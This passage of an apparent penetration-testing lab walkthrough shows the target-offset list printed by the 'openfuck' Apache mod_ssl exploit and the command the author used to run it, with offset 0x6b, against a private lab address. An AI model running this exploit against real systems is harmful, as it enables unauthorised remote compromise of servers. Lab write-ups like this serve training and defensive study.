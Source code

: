 ```bash
        0x67 - RedHat Linux 7.1-Update (1.3.22-5.7.1)
        0x68 - RedHat Linux 7.1 (apache-1.3.22-src)
        0x69 - RedHat Linux 7.1-Update (1.3.27-1.7.1)
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
        0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
        0x6d - RedHat Linux 7.2 (apache-1.3.24)
        0x6e - RedHat Linux 7.2 (apache-1.3.26)
        0x6f - RedHat Linux 7.2 (apache-1.3.26-snc)
        0x70 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)1
        0x71 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)2
        0x72 - RedHat Linux 7.2-Update (apache-1.3.27-1.7.2)
        0x73 - RedHat Linux 7.3 (apache-1.3.23-11)1
        0x74 - RedHat Linux 7.3 (apache-1.3.23-11)2
        0x75 - RedHat Linux 7.3 (apache-1.3.27)
        0x76 - RedHat Linux 8.0 (apache-1.3.27)
        0x77 - RedHat Linux 8.0-second (apache-1.3.27)
        0x78 - RedHat Linux 8.0 (apache-2.0.40)
        0x79 - Slackware Linux 4.0 (apache-1.3.6)
        0x7a - Slackware Linux 7.0 (apache-1.3.9)
        0x7b - Slackware Linux 7.0 (apache-1.3.26)
        0x7c - Slackware 7.0  (apache-1.3.26)2
        0x7d - Slackware Linux 7.1 (apache-1.3.12)
        0x7e - Slackware Linux 8.0 (apache-1.3.20)
        0x7f - Slackware Linux 8.1 (apache-1.3.24)
        0x80 - Slackware Linux 8.1 (apache-1.3.26)
        0x81 - Slackware Linux 8.1-stable (apache-1.3.26)
        0x82 - Slackware Linux (apache-1.3.27)
        0x83 - SuSE Linux 7.0 (apache-1.3.12)
        0x84 - SuSE Linux 7.1 (apache-1.3.17)
        0x85 - SuSE Linux 7.2 (apache-1.3.19)
        0x86 - SuSE Linux 7.3 (apache-1.3.20)
        0x87 - SuSE Linux 8.0 (apache-1.3.23)
        0x88 - SUSE Linux 8.0 (apache-1.3.23-120)
        0x89 - SuSE Linux 8.0 (apache-1.3.23-137)
        0x8a - Yellow Dog Linux/PPC 2.3 (apache-1.3.22-6.2.3a)

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
```

As we can see there are different versions of apache for different versions of Gnu/linux, after a few tries we found that the correct option is 0x6b.

```bash
./openfuck 0x6b 192.168.66.158 -c 45
```
